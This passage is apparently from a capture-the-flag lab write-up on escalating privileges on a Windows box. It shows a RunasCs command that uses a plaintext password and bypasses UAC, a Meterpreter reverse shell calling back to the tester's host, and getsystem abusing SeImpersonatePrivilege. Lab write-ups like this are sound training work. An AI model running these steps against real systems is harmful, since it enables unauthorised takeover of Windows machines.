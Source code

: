 ## Privilege Escalation to SYSTEM (unintended)

Unfortunately there was a pretty interesting `unintended solution` to the box. Therefore we used `RunasCs` to execute our `Metasploit` binary as `WAO`. The application `RunasCs` usually tries to enable all `Windows Tokens` which luckily worked on this box.

- [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

So we executed `RunasCs` as user `WAO` with the option for `bypassing` the `User Account Control (UAC)` and `Logon Level 5` which gave us another shell as `WAO` on `Metasploit` but with the `SeImpersonatePrivilege` enabled.

- [https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types](https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types)

We knew from the `post exploitation` we did that the `password` for `Administrator` was stored in a `Scheduled Task configuration`. We assumed that the `--bypass-uac` option of `RunasCs` in combination with `Log Level 5` made it possible that the `SeImpersonatePrivilege` got `enabled`.

| Logon Type | #   | Authenticators accepted         | Reusable credentials in LSA session | Examples         |
| ---------- | --- | ------------------------------- | ----------------------------------- | ---------------- |
| Service    | 5   | Password (stored as LSA secret) | Yes                                 | Windows services |

```c
*Evil-WinRM* PS C:\tmp> .\RunasCs.exe 'WAO' 'WebAO1337' "C:\tmp\asdf.exe" --bypass-uac -l 5 -b
```

```c
<--- CUT FOR BREVITY --->
[*] Sending stage (201798 bytes) to 10.129.153.87
[*] Meterpreter session 3 opened (10.10.14.79:6669 -> 10.129.153.87:60254) at 2024-10-27 18:32:16 +0100

meterpreter >
```

We checked the `privileges` after getting the `callback` for a new `meterpreter reverse shell` and it worked!

```c
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseWorkingSetPrivilege
SeMachineAccountPrivilege
```

From here on we just used the `getsystem` function of `meterpreter` to abuse the `SeImpersonatePrivilege` and got a new shell as `NT AUTHORITY\SYSTEM`.
